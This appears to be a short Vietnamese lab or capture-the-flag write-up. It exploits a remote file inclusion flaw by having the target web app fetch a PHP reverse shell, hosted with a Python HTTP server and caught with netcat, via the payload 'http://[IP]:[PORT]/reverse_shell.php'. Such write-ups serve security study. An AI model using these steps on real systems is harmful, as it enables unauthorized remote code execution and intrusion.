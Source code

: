 Thử nhập `abc` thì có lỗi: 

![image](https://user-images.githubusercontent.com/92881216/227266357-c3ca5d53-5ea1-48a3-a51d-cef5378e5849.png)

Thử nhập payload: `https://www.google.com/` :

![image](https://user-images.githubusercontent.com/92881216/227265756-74868351-656c-40c3-82aa-18dfd2bfce54.png)

Như vậy ứng dụng web này cho phép include 1 web bên ngoài.

Khai thác tiếp bằng cách tạo 1 file reverse shell bằng <a href="https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php" >php</a>

Sau đó khởi tạo 1 server đơn giản bằng python: `python3 -m http.server`

![image](https://user-images.githubusercontent.com/92881216/227264324-dfc63b63-cbe2-457a-a42e-2e37db9f28aa.png)

Bây giờ sử dụng `netcat` và nhập vào payload: `http://[IP]:[PORT]/reverse_shell.php`:

![image](https://user-images.githubusercontent.com/92881216/227264931-2e610ddb-8eae-4eb2-b33c-05506d396331.png)

![image](https://user-images.githubusercontent.com/92881216/227267393-634861ae-d0e0-44bc-9f6e-63f14b0eb945.png)

Kết quả: 

![image](https://user-images.githubusercontent.com/92881216/227267502-3b72c52b-b549-43dd-b899-94731101fa20.png)




